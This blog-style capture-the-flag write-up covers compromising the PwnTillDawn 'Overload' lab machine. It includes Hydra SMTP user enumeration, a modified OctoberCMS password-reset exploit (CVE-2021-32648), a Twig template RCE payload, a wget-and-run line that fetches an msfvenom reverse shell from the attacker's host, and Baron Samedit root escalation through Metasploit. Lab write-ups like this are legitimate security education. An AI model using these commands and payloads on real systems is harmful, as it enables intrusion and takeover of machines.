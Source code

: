 ```yaml
---
layout: post
title: PwnTillDawn - Overload Writeup
date: 2025-03-20
classes: wide
description: Enumerating LDAP to identify users, enumerating virtual hosts and exploring multiple CMSs for vulnerabilities to get an initial shell and escalating privileges through Baron Samedit (CVE-2021-3156).
---
```


## Overload (10.150.150.17)

![1](/assets/img/post/pwntilldawn_overload/1.png)



## Initial Scanning

Let's scan the target for services available and potential entry points:

![2](/assets/img/post/pwntilldawn_overload/2.png)

The scan has returned several ports, but the versions of Apache, Bind, FTP and SSH don't really point to any useful public CVEs apart from DoS, though we can abuse SMTP to enumerate usernames available inside the machine.

![3](/assets/img/post/pwntilldawn_overload/3.png)

Additionally, we also have LDAP avaialable, which is a lighter version of Active Directory and a MySQL listener.



## A Wild Subdomain Appears

After spending some time with LDAP, I've realized it was a lure, and that's all, so I've went after the web server, which has only one information:

<img src="/assets/img/post/pwntilldawn_overload/4.png" alt="4" style="zoom:50%;" />

Assuming *ptd* stands for PwnTillDawn, this must be a hostname, so I've added it to `/etc/hosts` and tested out for subdomains using DNS queries with `dig`:

```
dig any @10.150.150.17 overload.ptd
```

![5](/assets/img/post/pwntilldawn_overload/5.png)

Interestingly, we have an email subdomain, but once added to the `hosts` file, it's the same exact page, no additional information is provided and enumerating the subdomain has almost proved itself useless.

![6](/assets/img/post/pwntilldawn_overload/6.png)

So you might be thinking: *"What about the PHPMyAdmin?"*. Yes, it draws attention, but since I don't have any user apart from root and the version doesn't have any useful CVEs, all we can do is brute force the account and hope for the best.



## Oh, "Overload" eh?

Using the recently found hostname, what we can do is try to enumerate available vhosts within the server.

```
ffuf -u http://overload.ptd -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.overload.ptd" -fw 1
```

![7](/assets/img/post/pwntilldawn_overload/7.png)

As the vhosts keeps popping up, I've thought it was a fake, until I've realized they're not. Still wondering why is this called *Overload*? 

![8](/assets/img/post/pwntilldawn_overload/8.png)

Each and every virtual host has a functional CMS installed on it. Have fun enumerating and researching all 7 of them. Once added to the `/etc/hosts` I've decided to test all CMSs in the same order FFuF found them, which took me to `cms.overload.ptd`. 

![9](/assets/img/post/pwntilldawn_overload/9.png)

The page title says "OctoberCMS", so after a quick google search I've found out you can access administrator login page by appending `/backend` at the end of the URL.

![10](/assets/img/post/pwntilldawn_overload/10.png)

I've decided to look for public CVEs based on year instead of version, since I couldn't find a version string. I've used 2020 as reference since the scans showed this year.

![12](/assets/img/post/pwntilldawn_overload/12.png)

The CVE-2021-32648 can be used to reset a user's password and all you need is a username.



## Autumn Leaves, Admin Falls

If you don't have a valid username so far, you can either try guessing, enumerate using `smtp-enum` with Hydra or create a personal wordlist based on common words you can see throughout the CTF: `fritz`, `admin`,`overload`.

```
hydra -L users.txt smtp-enum://10.150.150.17/vrfy
```

![11](/assets/img/post/pwntilldawn_overload/11.png)

With a valid username in hands, all we need is the exploit, which can be found on [Github](https://github.com/Immersive-Labs-Sec/CVE-2021-32648) easily but requires some customizations. Since the original code is meant to be used on admin, there is no option to change the username, so either we add the option or modify the hardcoded user. If you choose the second option, all you gotta do is change the username on line 57 from `admin` to `overload`:

```python
    post_data = {
        '_token': csrf_token,
        'postback': 1,
        'login': 'overload' # 
    }
```

Now run the exploit and profit:

```sh
python cve-2021-32648.py --target "http://cms.overload.ptd" --password "S3cr37!"
```

![13](/assets/img/post/pwntilldawn_overload/13.png)



## From Template to Shell

Once accessed, we can view the user's dashboard:

![14](/assets/img/post/pwntilldawn_overload/14.png)

Now, after some exploration I haven't found anything useful, but I've discovered October actually uses Twig to build templates for the pages. So after googling about it, I've found an article about [RCE through Twig in October](https://cyllective.com/blog/posts/cve-2021-32649-octobercms).

So basically, to achieve a shell, all we need to do is to create a new page, name it whatever and add the following lines of code:

```twig
<pre>
    {{  this.controller.getTwig().registerUndefinedFilterCallback("passthru")  }}
    {{  this.controller.getTwig().getFilter("PAYLOAD")  }}
</pre>
```

I've decided to generate a payload with `msfvenom`, serve it using Python and run it on the target with the following command:

```sh
wget -O /tmp/shell http://10.66.66.158/shell && chmod +x /tmp/shell && /tmp/shell
```

So it'll download the file and save it in `/tmp/shell`, give it permissions with `chmod` and run it. This should return a connetion back to Metasploit:

```sh
msfconsole -x "use multi/handler;set lhost tun0;set lport 4444;run -j"
```

![15](/assets/img/post/pwntilldawn_overload/15.png)

With this shell, we can now find the `FLAG1.txt` file inside `/home/overload`:

![16](/assets/img/post/pwntilldawn_overload/16.png)



## Sudo Baron Strikes Again

I have used the same CVE for multiple machines during this series, and once more I'm abusing Baron Samedit (CVE-2021-3156). You can easily find a recommendation to do so by using the well-known [PEASS-ng](https://github.com/peass-ng/PEASS-ng) which I personally like to use in order to get some quick wins:

![17](/assets/img/post/pwntilldawn_overload/17.png)

Since I'm already using Metasploit, I can use the module present inside the framework to exploit the vulnerability:

```
www-data@overload:/home/overload$ ^Z # Ctrl + Z
Background channel 1? [y/N]  y
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/sudo_baron_samedit
```

After setting up the required fields (`LHOST`, `LPORT`, `SESSION`) I ran the exploit:

![18](/assets/img/post/pwntilldawn_overload/18.png)

I really love seeing this session message popping up tbh. I can now get a shell and find the next flag inside root's home directory:

![19](/assets/img/post/pwntilldawn_overload/19.png)

This is the most extensive and challenging machine so far, it took me a **really long** time to realize which exploit I had to use since every exploit required an authenticated user. At the end the exploit was hidden because I've decided to filter for 2020's exploits, so the CVE from 2021 didin't showed up, making me run in circles wasting time with the other CMSes. Now I do understand the meaning of Overload, still it's an extremely fun challenge. 
